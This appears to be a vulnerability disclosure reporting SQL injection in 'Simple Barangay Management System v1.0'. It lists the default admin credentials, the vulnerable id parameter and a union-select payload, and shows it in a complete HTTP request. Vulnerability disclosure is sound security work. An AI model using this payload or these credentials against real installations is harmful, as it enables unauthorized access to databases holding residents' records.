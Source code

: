 # Simple Barangay Management System v1.0 has SQL injection

BUG_AUTHOR: Weifei Hong

vendors: https://www.sourcecodester.com/php/14990/simple-barangay-management-system-php-and-sqlite-free-source-code.html

username&password = admin/admin123

Vulnerability File: /barangay_management/admin/?page=view_clearance

Vulnerability location: /barangay_management/admin/?page=view_clearance&id=,  id

[+] Payload: /barangay_management/admin/?page=view_clearance&id=1' union select 1,2,3,4,sqlite_version(),6,7,8,9,10--+

```sql
GET /barangay_management/admin/?page=view_clearance&id=1%27%20union%20select%201,2,3,4,sqlite_version(),6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=drqs3g29b8h07v6amt7rnb8t64
Connection: close
```

![image](https://github.com/user-attachments/assets/7211dd78-f110-4ef8-8502-63677063ba54)
